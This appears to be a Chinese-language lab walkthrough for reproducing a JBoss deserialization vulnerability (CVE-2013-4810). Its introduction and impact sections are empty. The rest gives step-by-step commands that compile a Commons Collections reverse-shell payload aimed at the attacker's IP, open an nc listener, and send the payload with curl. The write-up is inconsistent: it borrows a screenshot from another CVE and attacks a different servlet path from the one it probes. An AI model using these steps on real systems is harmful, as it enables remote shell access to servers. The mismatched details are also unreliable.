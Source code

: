 （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle
返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈\~），说明接口开发，存在反序列化漏洞

![](./.resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId24.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](./.resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId26.png)

打开nc界面，发现shell已经弹回来了

![](./.resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId27.png)

